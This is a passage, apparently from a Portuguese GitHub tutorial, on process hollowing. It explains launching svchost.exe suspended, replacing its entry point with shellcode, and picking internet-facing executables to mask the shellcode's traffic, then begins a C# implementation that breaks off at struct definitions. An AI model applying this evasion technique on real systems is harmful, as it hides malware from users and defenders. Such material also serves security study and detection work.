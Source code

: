```c
    // Um ponteiro para o bloco de ambiente para o novo processo. Se este 
    // parâmetro for Nulo, o novo processo usará o ambiente do processo de 
    // chamada.
    LPVOID lpEnvironment,
    // O caminho completo de onde o executável irá atuar, se esse 
    // paramêtro for Nulo será utilizado o mesmo caminho do executável
    LPCWSTR lpCurrentDirectory,
    LPSTARTUPINFOW lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
);
```
## Explicação

A técnica apresentada consiste em iniciar/criar um processo com o estado "CREATE_SUSPENDED" para que ele não execute. Depois disso, o EntryPoint do programa é substituído pelo shellcode em memória e seu estado é resumo em seguida.

O resultado dessa técnica é que iniciamos um processo autentico como o "svchost.exe" e substituimos o seu código em memória pelo shellcode, ou seja, quando abrimos o gerenciador de processo aparecerá o processo "svchost.exe" executando nosso shellcode.

Outro ponto importante é escolher executáveis que tenham alguma comunicação com a internet para que a comunicação do shellcode fique mais mascarada.

## Código em C#

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Threading;
using System.Text;
using System.Threading.Tasks;

namespace hollow
{
    class Program
    {
        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
        struct STARTUPINFO
        {
            public Int32 cb;
            public string lpReserved;
            public string lpDesktop;
            public string lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }

        [StructLayout(LayoutKind.Sequential)]
```